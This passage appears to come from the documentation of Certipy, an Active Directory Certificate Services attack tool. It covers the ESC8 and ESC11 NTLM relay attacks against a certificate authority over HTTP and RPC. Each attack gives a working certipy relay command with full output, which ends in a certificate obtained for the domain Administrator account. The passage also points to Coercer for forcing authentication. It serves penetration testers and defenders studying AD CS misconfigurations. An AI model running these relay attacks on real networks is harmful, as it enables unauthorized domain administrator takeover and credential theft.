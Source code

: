 We can then use a tool such as [Coercer](https://github.com/p0dalirius/Coercer) to coerce authentication. For domain controllers, we must specify `-template DomainController`.

```bash
$ certipy relay -target 'http://ca.corp.local'
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Targeting http://ca.corp.local/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
[*] Requesting certificate for 'CORP\\Administrator' based on the template 'User'
[*] Got certificate with UPN 'Administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-500'
[*] Saved certificate and private key to 'administrator.pfx'
[*] Exiting...
```

#### ESC9 & ESC10

ESC9 and ESC10 is not related to any specific Certipy commands or parameters, but can be abused with Certipy. See the [blog post](https://research.ifcr.dk/7237d88061f7) for more information.

#### ESC11

ESC11 is when the certificate authority is not configured with IF_ENFORCEENCRYPTICERTREQUEST. This makes the RPC service vulnerable to NTLM relay attacks without signing, such as via SMB. The attack is similar to ESC8, except that we're targeting the RPC protocol instead of the HTTP protocol.

To start the relay server, we can run the `relay` command and specify the CA's IP in `-target rpc://<ip>`. We must also specify the name of the certificate authority in `-ca <name>`.

By default, Certipy will request a certificate based on the `Machine` or `User` template depending on whether the relayed account name ends with `$`. It is possible to specify another template with the `-template` parameter.

We can then use a tool such as [Coercer](https://github.com/p0dalirius/Coercer) to coerce authentication. For domain controllers, we must specify `-template DomainController`.

```bash
$ certipy relay -target 'rpc://ca.corp.local' -ca 'corp-ca'
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Targeting rpc://ca.corp.local (ESC11)
[*] Listening on 0.0.0.0:445
[*] Connecting to ncacn_ip_tcp:ca.corp.local[135] to determine ICPR stringbinding
[*] Attacking user 'Administrator@CORP'
[*] Template was not defined. Defaulting to Machine/User
[*] Requesting certificate for user 'Administrator' with template 'User'
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 1
[*] Got certificate with UPN 'Administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-500'
[*] Saved certificate and private key to 'administrator.pfx'
[*] Exiting...
```
